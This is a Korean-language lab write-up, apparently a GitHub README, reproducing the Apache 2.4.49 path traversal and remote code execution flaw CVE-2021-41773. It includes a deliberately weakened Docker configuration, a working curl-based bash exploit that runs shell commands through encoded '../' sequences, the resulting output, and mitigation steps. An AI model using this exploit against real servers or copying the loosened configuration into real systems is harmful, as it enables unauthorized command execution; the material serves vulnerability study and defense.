



# CVE-2021-41773 — Apache HTTP Server Path Traversal & RCE

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE ID | CVE-2021-41773|
| 대상 | Apache HTTP Server 2.4.49 |
| 유형 | Path Traversal → Remote Code Execution (RCE) |
| 공개일 | 2021-10-05 |

Apache HTTP Server 2.4.49에서 도입된 경로 정규화(path normalization) 로직에 결함이 있어, URL 인코딩된 `../` (`%2e%2e/`) 시퀀스가 정상적으로 필터링되지 않았다. 이로 인해 공격자는 문서 루트(DocumentRoot) 밖의 임의 파일을 조회할 수 있었고, 대상 경로가 `cgi-bin`처럼 CGI 실행이 활성화된 별칭(alias) 하위에 있을 경우 `/bin/sh` 같은 실행 파일을 CGI로 직접 실행시켜 **원격 코드 실행(RCE)**까지 가능했다.

## 2. 환경 구성

컨테이너 1개로 완결되는 구조이며, 외부 이미지는 Docker Hub 공식 이미지(`httpd:2.4.49`)만 사용한다.

```
Apache/
├── docker-compose.yml
├── Dockerfile
├── poc.sh
└── README.md
```

### docker-compose.yml
```yaml
services:
  vulnerable-app:
    build: .
    ports:
      - "8080:80"
```

### Dockerfile
```dockerfile
FROM httpd:2.4.49

RUN sed -i \
    -e 's/#LoadModule cgid_module/LoadModule cgid_module/' \
    -e 's/#ScriptAlias \/cgi-bin\//ScriptAlias \/cgi-bin\//' \
    -e 's/Require all denied/Require all granted/' \
    /usr/local/apache2/conf/httpd.conf

RUN printf '\n<Directory "/usr/local/apache2/cgi-bin">\n    AllowOverride None\n    Options +ExecCGI\n    Require all granted\n</Directory>\n' >> /usr/local/apache2/conf/httpd.conf

EXPOSE 80
```

| 항목 | 값 |
| --- | --- |
| Base Image | `httpd:2.4.49` (Docker Hub 공식 이미지) |
| 활성 모듈 | `mod_cgi` / `cgid_module` |
| 노출 포트 | 8080 (호스트) → 80 (컨테이너) |

## 3. 취약 조건

- Apache HTTP Server **2.4.49** 
- `mod_cgi` 또는 `mod_cgid`가 활성화되어 있고 CGI 별칭 경로(`/cgi-bin/`)가 존재할 것
- URL 인코딩된 상대 경로(`%2e%2e/`)에 대한 `Require all denied` 접근 제어가 우회되는 정규화 결함

## 4. 재현 절차

### 4.1 환경 기동
```bash
docker compose up -d --build
```

### 4.2 정상 기동 확인

`Server: Apache/2.4.49 (Unix)` 헤더로 취약 버전임을 확인한다.

### 4.3 비교군 — 문서 루트 밖 파일 직접 접근 (정상적으로는 차단)

→ `404 Not Found` (문서 루트 기준으로는 접근 불가함을 확인)

### 4.4 PoC 실행 — path traversal을 통한 RCE
```bash
chmod +x poc.sh
./poc.sh http://localhost:8080
```

### 4.5 정리
```bash
docker compose down
```

## 5. PoC 코드

```bash
#!/bin/bash
# CVE-2021-41773 PoC - Apache 2.4.49 Path Traversal & RCE
# 사용법: ./poc.sh <target_url>

TARGET=${1:-http://localhost:8080}

echo "[*] Target: $TARGET"
echo "[*] Attempting RCE via path traversal to /bin/sh..."
echo ""

RESPONSE=$(curl -s --path-as-is \
  -d 'echo Content-Type: text/plain; echo; id' \
  "${TARGET}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh")

echo "$RESPONSE"
echo ""

if echo "$RESPONSE" | grep -q "uid="; then
    echo "[+] VULNERABLE: RCE confirmed via /bin/sh execution"
    exit 0
else
    echo "[-] NOT VULNERABLE or patched"
    exit 1
fi
```

**동작 원리**: `.%2e/%2e%2e/...` 형태로 인코딩된 상대 경로는 Apache 2.4.49의 정규화 로직을 우회하여 `cgi-bin` 별칭 밖의 `/bin/sh`를 CGI 스크립트처럼 실행시킨다. `-d` 옵션으로 전달한 셸 명령(`id`)이 표준입력을 통해 `/bin/sh`에 전달되어 실행되고, 그 결과가 HTTP 응답 바디로 반환된다.

## 6. 실행 결과



`uid=1(daemon) gid=1(daemon) groups=1(daemon)` 출력으로 `id` 명령이 실제로 컨테이너 내부에서 실행되었음이 확인되며, 이는 단순 정보 유출(LFI)을 넘어 원격 코드 실행(RCE)이 성립함을 의미한다.


## 7. 대응 방안

1. **버전 업그레이드**: Apache HTTP Server 2.4.51 이상으로 업데이트 (2.4.50 사용 시 CVE-2021-42013 추가 패치 적용 여부 확인)
2. **접근 제어 원복**: `httpd.conf`의 `<Directory />` 블록에서 `Require all denied`를 임의로 완화하지 말 것
3. **불필요한 모듈 비활성화**: CGI 실행이 필요하지 않다면 `mod_cgi`/`mod_cgid` 비활성화
4. **최소 권한 원칙**: 웹 서버 프로세스를 낮은 권한 계정(`daemon` 등)으로 구동하여 RCE 발생 시 피해 범위 최소화
5. **WAF/IPS 룰 적용**: 인코딩된 경로 순회 패턴(`%2e%2e`)에 대한 탐지·차단 룰 추가
